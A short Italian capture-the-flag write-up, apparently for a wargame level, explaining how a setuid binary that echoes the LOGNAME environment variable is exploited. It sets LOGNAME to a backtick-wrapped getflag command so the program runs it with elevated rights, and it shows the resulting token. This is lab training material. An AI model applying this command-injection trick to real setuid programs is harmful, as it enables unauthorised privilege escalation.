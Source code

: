 # Level07
### 1 passaggio:
Eseguendo il comando `ls -l`:
```bash
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
Abbiamo un eseguibile che stampa il nome utente, analizzando con il comando:
```bash
strings level07
```
notiamo l'utilizzo della funzione `getenv`, la stringa `/bin/echo %s` usata molto
probabilmente dalla funzione `asprintf` anch'essa presente nell'output e la variabile
d'ambiente `LOGNAME` usata sicuramente nella formattazione `%s` di `asprintf`.
In effetti facendo un veloce controllo con il comando `env` notiamo subito la variabile:
```bash
LOGNAME=level07
```

### 2 passaggio:
Con il seguente comando cambiamo la variabile `LOGNAME`:
```bash
export LOGNAME=\`getflag\`
```
e di conseguenza ora basta avviare l'eseguibile per avere il seguente output:
```bash
./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
